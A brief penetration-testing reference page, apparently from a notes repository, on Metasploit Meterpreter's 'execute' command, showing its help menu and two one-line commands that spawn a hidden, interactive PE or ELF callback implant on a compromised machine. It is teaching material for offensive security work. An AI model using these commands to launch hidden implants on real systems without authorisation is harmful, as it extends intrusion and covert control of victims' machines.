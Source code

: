 # 05 - Execute Process

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

## 5.1 - Help Menu

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -a   The arguments to pass to the command.
    -c   Channelized I/O (required for interaction).
    -d   The 'dummy' executable to launch when using -m.
    -f   The executable command to run.
    -h   Help menu.
    -H   Create the process hidden from view.
    -i   Interact with the process after creating it.
    -k   Execute process on the meterpreters current desktop
    -m   Execute from memory.
    -p   Execute process in a pty (if available on target platform)
    -s   Execute process in a given session as the session user
    -t   Execute process with currently impersonated thread token
    -z   Execute process in a subshell
```

## 5.2 - Usage

Spawn PE Callback Implant.

```
meterpreter > execute -Hicf payload.exe
```

Spawn ELF Callback Implant.

```
meterpreter > execute -Hicf ./payload
```

---
## References

- [Hacking Articles: Metasploit for Pentester Migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/)